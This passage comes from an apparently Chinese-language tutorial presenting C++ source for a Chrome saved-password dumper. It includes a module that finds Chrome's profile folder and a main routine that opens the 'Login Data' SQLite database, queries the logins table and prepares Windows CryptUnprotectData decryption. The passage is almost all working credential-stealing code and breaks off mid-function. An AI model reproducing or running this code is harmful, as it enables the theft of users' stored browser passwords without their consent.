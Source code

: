 3. 获取路径模块`ProfilePath_Get.cpp`

   ```c++
   #include "CryptUnprotectData.h"
   #include <ShlObj_core.h>
   constexpr auto Get_failed = "get_ProfilePath Failed";
   string getProfilePath() {
   	char* appDataPath = (char*)malloc(sizeof(char) * MAX_PATH);
   	if (appDataPath != NULL) {
   		//获取Chrome 保存登录信息文件Login Data的路径
   		SHGetFolderPathA(NULL, CSIDL_LOCAL_APPDATA, NULL, 0, appDataPath);	// 获取当前用户的文件系统目录C:\Users\username\AppData\Local
   		string profilePath = appDataPath;
   		//printf("%s\n", appDataPath);
   		profilePath = profilePath + "\\Google\\Chrome\\User Data\\Default\\";
   		return profilePath;
   	}
   	else
   		return Get_failed;
   }
   
   ```
   
   **SHGetFolderPathA**：参考window开发文档[SHGetFolderPathA function](https://docs.microsoft.com/zh-cn/windows/win32/api/shlobj_core/nf-shlobj_core-shgetfolderpatha)
   
   
   
   
   
4. 执行模块`run.cpp`（包含数据库操作及密码解密）

   ```c++
   #include "CryptUnprotectData.h"
   #include <Wincrypt.h>
   #include "sqlite3.h"
   #pragma comment(lib,"crypt32.lib")
   #pragma warning(disable:4996)
   
   int main(int argc, char* argv[])
   {
   	sqlite3* DB = NULL; // 一个打开的数据库实例
   	sqlite3_stmt* stmt = NULL;// sqlite3_stmt 预编译语句对象. 由sqlite3_prepare()创建，由sqlite3_finalize()销毁
   	string LoginDataPath = getProfilePath() + "Login Data";
   	const char* path = LoginDataPath.c_str();	// Login Data sql文件的路径
   	char** dbResult; // 是 char ** 类型，两个*号
   	int nRow, nColumn;// 表的行数，列数
   	int index;
   	DATA_BLOB DataOut;
   	DATA_BLOB Dataput;
   	LPWSTR pbtest = NULL;
   
   	// 根据文件路径打开数据库连接。如果数据库不存在，则创建。
   	// 数据库文件的路径必须以C字符串传入。
   	int result = sqlite3_open(path, &DB);
   
   	if (result == SQLITE_OK) {
   		std::clog << "打开数据库连接成功\n";
   		//开始查询，传入的 dbResult 已经是 char **，这里又加了一个 & 取地址符，传递进去的就成了char ***
   		const char* sql = "Select * from logins";
   		int result1 = sqlite3_prepare_v2(DB, sql, -1, &stmt, NULL);
   		int result2 = sqlite3_get_table(DB, "Select * from logins", &dbResult, &nRow, &nColumn, NULL);
   		if (result1 == SQLITE_OK && result2 == SQLITE_OK)
   		{
   			//查询成功
   			printf("表格共%d 记录!\n", nRow);
   			printf("表格共%d 列!\n", nColumn);
   ```